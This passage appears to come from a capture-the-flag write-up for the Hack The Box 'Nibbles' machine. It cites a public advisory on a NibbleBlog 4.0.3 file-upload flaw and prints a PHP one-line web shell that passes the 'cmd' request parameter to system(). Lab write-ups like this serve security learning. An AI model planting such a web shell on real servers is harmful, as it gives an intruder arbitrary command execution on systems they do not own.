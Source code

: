<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/nibbles/assets/images/6.png" >
</center>

### Exploit Nibbleblog

[Reference to exploit](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html)

From the above blog got the steps to exploit it and get the reverse shell.

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/nibbles/assets/images/7.png" >
</center>

So, we have created a php one-liner to execute the commands in the webpage itself.

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die;  }?> ?>
```
